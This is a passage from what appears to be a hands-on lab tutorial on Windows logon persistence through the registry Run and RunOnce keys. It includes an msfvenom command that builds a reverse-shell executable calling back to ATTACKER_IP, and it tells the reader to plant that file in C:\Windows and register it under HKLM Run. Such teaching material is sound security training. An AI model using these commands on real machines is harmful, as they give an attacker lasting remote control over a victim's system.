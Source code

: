 You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`
```shell-session
C:\> move revshell.exe C:\Windows
```

Create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. 
The entry's name can be anything you like, and the value will be the command we want to execute.